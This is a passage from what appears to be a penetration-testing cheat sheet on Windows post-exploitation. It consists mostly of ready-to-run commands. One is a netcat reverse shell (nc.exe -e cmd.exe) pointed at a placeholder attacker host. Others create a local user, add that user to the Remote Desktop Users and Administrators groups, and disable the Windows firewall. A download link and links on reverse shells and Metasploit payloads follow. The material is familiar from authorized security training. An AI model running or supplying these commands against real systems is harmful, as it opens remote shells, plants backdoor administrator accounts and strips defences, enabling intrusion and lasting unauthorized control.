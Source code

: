 Copy

```
nc.exe -e cmd.exe [attack machine] [port]
```

You can [download nc.exe from here](https://eternallybored.org/misc/netcat/).

If RDP is enabled (port 3389), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on Windows:

Copy

```
net user $username $password /add
```

Add a user to the “Remote Desktop Users” group:

Copy

```
net localgroup "Remote Desktop Users" $username /add
```

Make a user an Administrator:

Copy

```
net localgroup administrators $username /add
```

Disable Windows firewall on newer versions:

Copy

```
NetSh Advfirewall set allprofiles state off
```

Disable windows firewall on older windows:

Copy

```
netsh firewall set opmode disable
```

### Further reading <a href="#further-reading" id="further-reading"></a>

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
* [A guide to hacking without Metasploit](https://medium.com/@hakluke/haklukes-guide-to-hacking-without-metasploit-1bbbe3d14f90)
